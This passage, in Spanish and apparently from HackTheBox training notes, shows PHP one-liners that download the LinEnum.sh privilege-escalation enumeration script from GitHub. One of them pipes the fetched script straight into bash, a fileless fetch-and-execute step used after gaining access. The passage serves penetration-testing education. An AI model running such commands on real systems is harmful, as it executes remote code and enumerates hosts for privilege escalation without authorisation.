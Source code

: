 En el siguiente ejemplo, usaremos el PHP[módulo file_get_contents ()](https://www.php.net/manual/en/function.file-get-contents.php)Para descargar contenido de un sitio web combinado con el[módulo file_put_contents ()](https://www.php.net/manual/en/function.file-put-contents.php)Para guardar el archivo en un directorio.`PHP`se puede usar para ejecutar una línea de una línea de comando del sistema operativo utilizando la opción`-r`.

### **Descargar PHP con file_get_contents ()**

Transferir archivos con código

```
xnoxos@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

Una alternativa a`file_get_contents()`y`file_put_contents()`es el[módulo fopen ()](https://www.php.net/manual/en/function.fopen.php). Podemos usar este módulo para abrir una URL, leer su contenido y guardarlo en un archivo.

### **Descargar PHP con Fopen ()**

Transferir archivos con código

```
xnoxos@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote =
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

---

También podemos enviar el contenido descargado a una tubería, de manera similar al ejemplo sin archivo que ejecutamos en la sección anterior usando Curl y Wget.

### **Php descargue un archivo y vaya a Bash**

Transferring Files with Code

```
xnoxos@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

**Nota:**La URL se puede usar como nombre de archivo con la función @file si se habilitan los envoltorios Fopen.

---

# **Otros idiomas**

`Ruby`y`Perl`son otros idiomas populares que también se pueden usar para transferir archivos. Estos dos lenguajes de programación también admiten la ejecución de una línea de una línea de comandos del sistema operativo utilizando la opción`-e`.

---
